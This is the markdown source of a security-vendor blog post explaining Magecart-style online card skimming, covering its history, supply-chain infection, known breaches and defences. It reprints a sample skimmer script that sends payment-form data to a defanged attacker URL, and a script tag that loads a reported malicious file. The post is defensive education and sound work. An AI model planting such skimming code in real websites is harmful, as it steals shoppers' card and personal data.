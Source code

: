 ```yaml
---
template: "blog/blog-post"
draft: false

# Metadata
title: "All About Online Skimming or Digital Skimming Attacks"
description: "Read everything you need to know about skimming attacks or magecart style attacks. The post explains the evolution of skimming attacks, how does it work, examples of skimming attacks, trends and how to protect against skimming in detail."

# Breadcrumbs
breadcrumbs:
  - name: TechBlog
    path: /techBlog/
  - name: All About Online Skimming...

# Fields
date: 2019-07-24
author:
  - Mickey Alton

blog_title: "All About Online Skimming or Digital Skimming Attacks"
categories: Research
tags:
  - client side data protection
  - online skimming attacks

related_posts:
  - Client-Side - The Security Blindspot of your Website
  - $229 Million GDPR Fine for British Airways Shows How Costly JavaScript Attacks Can Be
  - Why SREs Should Worry More About Third-Party JavaScript

thumbnail: digital-skimming.jpg
---
```


![All About Online Skimming or Digital Skimming Attacks](/assets/images/blog/digital-skimming.jpg)<br>

The rise of digital skimming attacks, web-based supply chain attacks, in recent years is stressing the e-commerce industry. E-commerce companies cannot ignore web-based supply chain attacks resulting in direct website breaches.

Our previous blog post, [Client-Side battle against JavaScript attacks](/blog/client-side-battle-against-javascript-attacks/), and [Why SRE’s should worry more about third-party javascript](/blog/sres-should-worry-third-party-javascript/), shed light on the growing digital skimming menace.

Digital skimming is a semi-new threat, often called “Magecart,” consists of more than a dozen “official” different rival groups. These groups are targeting online retailers and eluding security researchers. Interestingly enough these groups don't always play nice with each other. They compete with each other to steal “low hanging” credit card data and personally identifiable information (PII). And resell them on deep-web and dark-net markets. This client-side threat is the new face of modern e-commerce cybercrimes.

## What is Skimming

Skimming Definition: Skimming or card skimming was originally used to describe the physical tampering of POS (point-of-sale) devices, ATMs and gas pumps by placing a hidden device inside them to steal credit card information.
The stolen credit card information is used to make online (card-not-present) purchases, cloned for in-store (card present) purchases or sold on different deep-web markets and darknet markets.
Victims of credit card skimming were often unaware of the theft until they noticed unauthorized charges on their account.

## What is digital skimming or online card skimming

Digital skimming is a term describing the action of stealing credentials and sensitive payment information from website visitors. Digital skimmers use pre-placed malicious javascript code that sniffs user inputs from sensitive forms or creates a malicious iframe with fake payment forms to sniff credit card information.

![This is an example of a card skimmer](/assets/images/blog/card-skimmer.jpg)

## The evolution of skimming

Later on, cybercriminals started to practice the same concept of card skimming - online. Instead of placing a physical device on the ATM, they would place a code that acts the same way (scanning private information) in online stores. There are more than a few synonyms for this semi-new cybercrime trend of digital skimming: js sniffing, digital skimming, web-skimming, and js stealer. They all refer to the same practice of injecting an unwanted piece of javascript malware into website cart or checkout page code to ‘grab’ sensitive information.

## What does a digital or online card skimming code look like

Below is a skimming script example taken from [Github](https://github.com/mspringfield/MageCart_Testing/blob/master/include.js) that resembles pieces of code that were used to carry out real sniffing operations.

```javascript
window.onload = function() {
  jQuery("#ifrmPayment")
    .contents()
    .find("#btnCreditCard")
    .bind("mouseup touchend", function(e) {
      var dati = jQuery("#ifrmPayment")
        .contents()
        .find("form");
      setTimeout(function() {
        jQuery.ajax({
          type: "POST",
          async: true,
          url: "hxxp://example.net/evilform.php",
          data: pdati,
          dataType: "application/json",
        });
      }, 20);
    });
};
```

_Code taken from Github that was used to carry out real sniffing operations._

Skimming scripts usually come heavily obfuscated, some are very short and have less than 20 lines of ‘innocent’ JavaScript code and one line that contains the malicious behavior. In the example above, we can see that the attackers are leveraging legitimate jQuery.

## How does digital or online card skimming work

Most of the skimming operations are carried out in two ways:

- Direct hack of a website: The direct hack of a website or a batch of websites, by brute-forcing administrator credentials (called brute-force attacks) or by using known, zero-day vulnerabilities (usually CMS based) for placing a malicious js in a website is an obvious but still attractive way to carry out a skimming operation.
- Supply chain attack: The more contemporary way - infection by supply chain attack - can be read in our latest blog, client-side-The security-blindspot of your website. The client-side has been evaluated and now two of the main sources of JS modules are open-source libraries and third-party vendors. This attack works by “simply” compromising one third-party vendor and tampering with the original script to deliver the malicious piece of code with the original code to all of the websites using the poisoned third-party script.

## Examples Of Magecart Skimming Attacks

During the period of 2017-2018 more than 12 third-party vendors were breached by “Magecart” (group 5), a few among them are:

- [Feedify](https://www.zdnet.com/article/feedify-becomes-latest-victim-of-the-magecart-malware-campaign/), August - September 2018. Feedify, an Indian company that provides browser-based customer survey service, has more than 4,000 customers according to its website. After Feedify detected the breach and removed the malicious script, the attackers (who had control of the core infrastructure) kept adding the skimming script three more times before the root cause of the breach was truly fixed.
- PushAssist is a 3rd party vendor offering a push notification service to reach and re-engage customers, it was also compromised my Magecart to deliver malicious JS sniffing code to websites that use PushAssist’s service.
  These third-party vendor breaches and many more resulted in a huge impact on tens of thousands of visitors.

Moreover, while press releases and news tend to focus on operations against known brands and websites there are ongoing attacks carried out widely targeting CMS-based websites.
The impact of these attacks should not be taken lightly. For instance, less than a year ago around 17 vulnerable Magento extensions were leveraged by skimmers to launch wide skimming attacks using POI (PHP object Sterilization) [vulnerability in several popular Magento extensions](https://sansec.io/labs/2018/10/23/magecart-extension-0days/).
Over 7,000 Magento shops were reported as compromised during 2018 alone. In most cases, the infection was as simple as a single line of HTML that loads a malicious script used to carry out the attack methodically on thousands of website without much effort.

```javascript
<script type="text/javascript" src="https://magento.name/mage/mage.js"></script>
```

Although site owners have been notified by good samaritans security researchers that the C&C servers were a sinkhole, hundreds of website still have the malicious snippet embedded in their source code while the malware itself does not exist anymore. It remains from a past breach.
Magento Commerce, Powerfront CMS, and OpenCart-based website are under constant attack in a new era of digital skimming and there’s not a proper solution as of today. Magento shop breaches are losing their attention to more ‘appealing’ campaigns, involving compromises of larger brands such as Techrabbit, [VisionDirect](https://www.bleepingcomputer.com/news/security/visiondirect-data-breach-caused-by-magecart-attack/) and many more.

## Digital Skimming Trends

Digital skimming is on an upward trend. This new fraud trend does not seem to be fading out, with new breaches, new actors and hundreds of thousands of victims.
According to [Gemini Advisory’s](https://geminiadvisory.io/card-fraud-on-the-rise/) research, fraud involving physical cards (CP: card-present) is on a downward trend while online (CNP: card-not-present - skimmed digitally) is rising.

![Comparison of card-present vs. card-not-present fraud](/assets/images/blog/comparison-card-present-not-present.jpg)<br>

These trends correlate perfectly with similar findings by 2019 [Verizon](https://enterprise.verizon.com/resources/reports/2019-data-breach-investigations-report.pdf) data breach report that clearly shows the rise in new web skimming trend. In their words exactly, “Web application attacks have punched the time clock and relieved POS Intrusion of their duties.“

## How to protect against digital or online card skimming?

Even though the digital skimming threat is constantly evolving, attackers always stay busy finding new ways to infect websites and exfiltrate sensitive data. There are relatively simple countermeasures that can be taken in order to protect against the threat of online card skimming.

1. Correct use of Content Security Policy (CSP) by website administrators. CSP headers are used to restrict communication and data transfer between domains and will constitute a great blocker for a malicious script trying to transfer data from domain to unauthorized domain.
2. From the visitor's point of view (client-side): There are more than a few extensions such as “ScriptSafe”, “ContentBlockHelper”, “NoScript” and more that provide the users both control on actions made by scripts and visibility on all the domains that are serving scripts. Another option is using privacy-oriented browsers such as “Brave Browser” that allows the user to block the third-party script from being loaded.

Stay tuned for more blogs on the topic of third-party code vulnerabilities. Find out more about protecting against digital skimming attacks with [PerimeterX code defender](/products/code-defender/).
